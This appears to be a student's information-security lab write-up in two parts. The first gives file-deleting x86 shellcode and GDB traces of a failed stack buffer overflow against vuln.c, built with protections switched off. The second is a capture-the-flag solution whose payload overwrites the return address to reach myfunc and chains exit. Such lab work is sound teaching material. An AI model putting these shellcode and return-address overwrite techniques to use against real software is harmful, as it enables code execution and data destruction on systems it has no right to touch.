

# Lab 2 - Information Security

## 1. Run file_del.asm in vuln.c with buffer overflow

### Compile and prepare


```sh
section .text 
global  _start 
 
_start: 
    jmp short ender 
starter: 
    xor eax, eax <- was edited from mov mov eax, 10 
    add al,  8 
    add al,  2 
    mov ebx, _filename 
    int 0x80 
_exit: 
    xor eax, eax <- was edited from mov eax, 1 
    add al,  1 
    int 0x80 
 
ender: 
    call starter 
 
_filename db 'dummyfile' <- was edited from _filename: db ‘dummyfile’, 0 

```

Turn off OS's address space layout randomization


```sh
gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c
nasm -f elf32 file_del.asm
ld -m elf_i386 -o file_del file_del.o
```



### Generate payload

Python code to dump


```sh
python3 ./lab2/exploit.py
```


### Attack step by step in gdb

```sh
# Run GDB with commands
gdb -q ./vuln << EOF
set disassembly-flavor intel
disassemble main
break *main+17
break *main+51
break *main+78
run \$(cat payload.bin)

# At first breakpoint (before strcpy)
info registers
x/32xw \$esp
continue

# At second breakpoint (after strcpy)
info registers
x/32xw \$esp
x/s \$esp
continue

# At third breakpoint (at ret instruction)
info registers
x/32xw \$esp
x/s \$esp
x/16i \$eip
backtrace
info frame
continue
EOF
```

Based on the provided information and GDB output, I'll explain the buffer overflow attack step-by-step in English:

1. Preparation:
The vulnerable program `vuln.c` contains a buffer overflow vulnerability in the `strcpy` function. The `file_del.asm` contains shellcode to delete a file named "dummyfile".

2. Compilation and setup:
- The vulnerable program is compiled with protections disabled:
```sh
gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c
```
- The shellcode is assembled:
```sh
nasm -f elf32 file_del.asm
ld -m elf_i386 -o file_del file_del.o
```
- Address Space Layout Randomization (ASLR) is disabled.

3. Payload generation:
A Python script (`exploit.py`) is used to generate the payload, which likely consists of:
- NOP sled
- Shellcode from `file_del.asm`
- Return address to override the stack

4. GDB analysis:

a. First breakpoint (before `strcpy`):
```
Breakpoint 1, 0x0804844c in main ()
```
At this point, the stack and registers are in their initial state.

b. Second breakpoint (after `strcpy`):
```sh
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffff00bf --> 0x0
EDX: 0xffffd71c ("yfile\240\366\377\277")
ESI: 0xf7fc9000 --> 0x1b2db0
EDI: 0xf7fc9000 --> 0x1b2db0
EBP: 0x0
ESP: 0xffff00bb --> 0x0
EIP: 0x8048489 (<main+78>:      ret)
```
The buffer has been overflowed, and the stack has been overwritten with our payload. The `EBP` and return address have been overwritten.

c. Third breakpoint (at `ret` instruction):
```sh
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffff00bf --> 0x0
EDX: 0xffffd71c ("yfile\240\366\377\277")
ESI: 0xf7fc9000 --> 0x1b2db0
EDI: 0xf7fc9000 --> 0x1b2db0
EBP: 0x0
ESP: 0xffff00bf --> 0x0
EIP: 0x0
```
The program is about to return, but the return address has been overwritten with 0x0, which is an invalid address.

5. Crash analysis:
```sh
Invalid $PC address: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xffff00bf --> 0x0 
0004| 0xffff00c3 --> 0x0 
0008| 0xffff00c7 --> 0x0 
0012| 0xffff00cb --> 0x0 
0016| 0xffff00cf --> 0x0 
0020| 0xffff00d3 --> 0x0 
0024| 0xffff00d7 --> 0x0 
0028| 0xffff00db --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000 in ?? ()
```
The program crashes with a segmentation fault (SIGSEGV) when trying to execute code at address 0x0. This indicates that our payload has successfully overwritten the return address, but it seems the overwritten address is incorrect.

6. Issue identification:
The buffer overflow was successful in overwriting the stack and return address. However, the payload doesn't seem to be correctly constructed:
- The return address is overwritten with 0x0 instead of pointing to the shellcode.
- The stack doesn't contain visible shellcode at the examined locations.


By addressing these issues, the exploit should successfully redirect execution to the shellcode, resulting in the deletion of the "dummyfile".


## 2. Buffer Overflow Attack on ctf.c

### Stack Frame Analysis of 'vuln' Function

The 'vuln' function's stack frame can be illustrated as follows:

| Section | Size | Description |
|---------|------|-------------|
| buf[100] | 100 bytes | Array filled with placeholder character: 'a' * 100 |
| EBP | 4 bytes | Filled with placeholder character: 'a' * 4 |
| Return address | 4 bytes | Will be replaced by 'myfunc' address (0x0804851b) for redirecting |
| Parameter s pointer | 4 bytes | Will be replaced by exit address (0x080483e0) to cover the 'Segmentation fault' track |
| Parameter p | 4 bytes | Value: 0x04081211 |
| Parameter q | 4 bytes | Value: 0x44644262 |

### Exploit Preparation

1. Create 'flag1.txt' in the same directory as the program file to pass the first if statement in 'myfunc'.

2. Construct the payload using Python:

```sh
$ ./ctf $(python -c "print(  
'a'*104     
+'\x1b\x85\x04\x08'  
+'\xe0\x83\x04\x08'  
+'\x11\x12\x08\x04'   
+ '\x62\x42\x64\x44')")  
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 aaaaaaaaaaaaaaaaaaaaaaaaa��◄♦bBdD 
myfunc is reached 
You got the flag
```


### Exploit Analysis

Let's break down the exploit payload:

1. `'a'*104`: This fills the buffer (100 bytes) and overwrites the saved EBP (4 bytes).

2. `'\x1b\x85\x04\x08'`: This is the address of `myfunc` (0x0804851b) in little-endian format. It overwrites the return address, redirecting execution to `myfunc`.

3. `'\xe0\x83\x04\x08'`: This is the address of `exit@plt` (0x080483e0) in little-endian format. It's used as the `s` parameter for `myfunc`, which will be called after `myfunc` returns, preventing a segmentation fault.

4. `'\x11\x12\x08\x04'`: This represents the value 0x04081211 for parameter `p`.

5. `'\x62\x42\x64\x44'`: This represents the value 0x44644262 for parameter `q`.

### Execution Flow

1. The `vuln` function is called, and the buffer overflow occurs.
2. When `vuln` returns, instead of going back to `main`, it jumps to `myfunc` (0x0804851b).
3. `myfunc` executes, checking for "flag1.txt" and printing "You got the flag" if it exists.
4. After `myfunc` completes, instead of returning to an invalid address, it calls `exit` (0x080483e0), terminating the program cleanly.

This exploit successfully redirects execution to `myfunc`, passes the required parameters, and avoids a segmentation fault by using `exit` as the return address for `myfunc`.


